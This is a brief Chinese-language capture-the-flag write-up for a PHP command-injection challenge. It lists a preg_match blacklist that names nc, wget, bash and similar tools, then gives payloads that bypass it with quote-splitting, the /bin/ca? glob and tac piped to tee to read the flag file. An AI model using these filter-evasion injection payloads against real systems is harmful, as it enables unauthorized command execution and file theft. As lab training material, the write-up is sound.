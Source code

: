 ![img](./assets/wps247.jpg)

分析源码：

get传参url

preg_match过滤

Bash

Nc

Wget

Ping

Ls

Cat

More

Less

Phpinfo

Base64

Echo

Php

Python

Mv

Cp

La

\-

\>

<

%

$

![img](./assets/wps248.jpg) 

可以执行命令，但是无回显

可以利用tee配合管道符绕过

 

Tee是Linux命令，用于显示程序的输出并将其复制到一个文件中。

 

 

 

没有过滤 ' 

可以利用其绕过ls cat la

构造payload

?url=l''s / |tee 1.txt

 

查看1.txt

![img](./assets/wps249.jpg) 

读取flllllaaaaaaggggggg

构造payload:

 

?url=tac /flllll''aaaaaaggggggg|tee 5.txt

 

查看5.txt

 

![img](./assets/wps250.jpg) 

 

也可以使用

?url=/bin/ca? /flllll''aaaaaaggggggg|tee 2.txt

 

其中

/bin/ca?表示匹配/bin目录下的cat命令

 
